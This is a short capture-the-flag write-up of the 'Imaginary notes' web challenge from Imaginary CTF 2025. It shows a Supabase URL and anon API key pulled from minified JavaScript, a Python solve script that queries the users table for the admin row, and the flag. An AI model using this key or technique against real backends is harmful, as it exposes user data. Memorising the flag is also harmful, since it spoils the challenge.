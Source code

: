 -----------

### Imaginary CTF 2025

-----------

![image](https://github.com/user-attachments/assets/a6341580-8aea-42ec-8676-11eda1a5dcc2)

-------------

### Challenges 

-------------

- Web-:
  - Imaginary notes

---------------

### Imaginary-notes

----------------

![image](https://github.com/user-attachments/assets/5a5b57d5-e346-4a49-8be8-9b1b2e1e779b)

-----------------

- We have a Nextjs application.I checked the `view-source` for minified js files and discovered one.

![image](https://github.com/user-attachments/assets/463cf46a-cc68-4ab5-9789-175a7e7c9fd9)

- I visited the page and discovered a minified code with a supabase url and an api key.

![image](https://github.com/user-attachments/assets/6473f555-28f2-4b85-880c-e01c1326433c)

- Solve.py-:

```python3
#! /usr/bin/env python3
from  supabase import Client,create_client

url = "https://dpyxnwiuwzahkxuxrojp.supabase.co"
key = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI"

client =  create_client(url,key)
data = client.table("users").select("*").eq("username","admin").execute()
print(data)
```

- Flag-: ```ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}```

![image](https://github.com/user-attachments/assets/795fd795-7725-4272-9ca8-cdf1c4d4b376)

--------------------



